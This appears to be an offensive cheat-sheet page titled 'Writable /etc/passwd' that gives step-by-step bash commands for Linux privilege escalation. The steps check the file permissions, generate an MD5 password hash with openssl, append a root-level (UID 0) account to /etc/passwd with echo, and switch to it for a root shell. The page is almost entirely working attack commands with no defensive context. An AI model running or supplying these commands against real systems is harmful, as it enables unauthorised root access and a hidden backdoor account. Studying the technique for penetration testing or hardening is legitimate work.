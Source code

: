 ```yaml
---
title: "Writable /etc/passwd"
date: 2024-7-1
tags: ["passwd", "shadow", "/etc/passwd", "privesc"]
---
```


---
### Abuse #1: Writable /etc/passwd

<div>

```bash
# Check
ls -l /etc/passwd /etc/shadow
```

```bash
# Create password hash
openssl passwd -1 password
```

```bash
# Add to /etc/passwd
echo 'user:$1$mQ8Xk.u8$XjFlyg01xLRjhCK/v//Qe/:0:0:comment:/root:/bin/bash' >> /etc/passwd
```

```bash
# Get root shell
su - user
```

</div>

<br>